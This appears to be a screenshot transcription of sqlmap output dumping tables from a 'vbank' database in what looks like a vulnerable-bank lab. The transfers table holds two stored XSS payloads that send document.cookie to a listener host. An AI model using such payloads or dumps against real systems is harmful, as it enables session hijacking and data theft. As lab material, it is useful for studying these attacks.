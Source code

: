 ```bash
web server operating system: Linux Debian
web application technology: Apache 2.4.46
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[06:37:59] [INFO] fetching tables for database: 'vbank'
[06:37:59] [INFO] fetching columns for table 'currencies' in database 'vbank'
[06:37:59] [INFO] fetching entries for table 'currencies' in database 'vbank'
Database: vbank
Table: currencies
[2 entries]
+----+------+
| id | name |
+----+------+
| 1  | $    |
| 2  | €    |
+----+------+

[06:37:59] [INFO] table 'vbank.currencies' dumped to CSV file '/home/kali/.local/share/sqlmap/output/192.168.37.128/dump/vbank/currencies.csv'                                                                                                                          
[06:37:59] [INFO] fetching columns for table 'transfers' in database 'vbank'
[06:37:59] [INFO] fetching entries for table 'transfers' in database 'vbank'
Database: vbank
Table: transfers
[7 entries]
+----+---------------------+--------+----------+---------------------------------------------------------------------------------------------+----------+----------+----------+
| id | time                | amount | dstacc   | remark                                                                                      | srcacc   | dstbank  | srcbank  |
+----+---------------------+--------+----------+---------------------------------------------------------------------------------------------+----------+----------+----------+
| 4  | 2014-03-29 04:14:07 | 70     | 22222222 | Refund                                                                                      | 11111111 | 41131337 | 41131337 |
| 5  | 2014-03-29 04:24:33 | 300    | 11111111 | WG rent                                                                                     | 22222222 | 41131337 | 41131337 |
| 7  | 2014-03-30 03:46:13 | 110    | 11111111 | Insurance                                                                                   | 22222222 | 41131337 | 41131337 |
| 91 | 2021-05-19 10:04:08 | 6      | 3        | test                                                                                        | 11111111 | 41131337 | 41131337 |
| 92 | 2021-05-19 10:04:35 | 6      | 33333333 | 5                                                                                           | 11111111 | 41131337 | 41131337 |
| 93 | 2021-05-23 15:33:36 | 1      | 33333333 | <script>new Image().src="http://192.168.37.128:81/cookie.html?c="+document.cookie;</script> | 11111111 | 20888888 | 41131337 |
| 94 | 2021-05-23 15:37:36 | 6      | 22222222 | <script>new Image().src="http://192.168.37.128:81/c="+document.cookie;</script>             | 11111111 | 41131337 | 41131337 |
+----+---------------------+--------+----------+---------------------------------------------------------------------------------------------+----------+----------+----------+

[06:37:59] [INFO] table 'vbank.transfers' dumped to CSV file '/home/kali/.local/share/sqlmap/output/192.168.37.128/dump/vbank/transfers.csv'                                                                                                                            
[06:37:59] [INFO] fetching columns for table 'branches' in database 'vbank'
[06:38:00] [INFO] fetching entries for table 'branches' in database 'vbank'
Database: vbank
Table: branches
[4 entries]
+----+----------+
| id | name     |
+----+----------+
| 1  | Berlin   |
| 2  | Passau   |
| 3  | Stutgart |
| 4  | Bonn     |
+----+----------+
```